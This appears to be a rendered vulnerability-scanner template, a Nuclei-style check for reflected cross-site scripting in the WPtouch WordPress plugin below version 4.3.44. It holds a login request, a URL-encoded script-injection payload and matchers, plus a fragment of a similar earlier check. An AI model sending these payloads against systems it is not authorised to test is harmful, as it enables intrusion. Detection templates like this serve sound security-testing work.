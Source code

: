 **Type - word**
- part - body
- words
    1. wc-reports&a\">\<script>alert(1)\</script>">All

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WPtouch \< 4.3.44 - Cross Site Scripting
## Description
- The plugin does not escape some URLs before outputting them back in attributes, leading to Reflected Cross-Site Scripting.

- severity - medium
- tags - wp-plugin,wp,wordpress,xss,authenticated,wptouch,wpscan
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=wptouch-admin-license&a%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. ">\<script>alert(document.domain)\</script>

**Type - word**
- part - body
- words
    1. WPtouchCustom
    2. WPtouchAjax
    3. toplevel_page_wptouch-admin
- condition - or
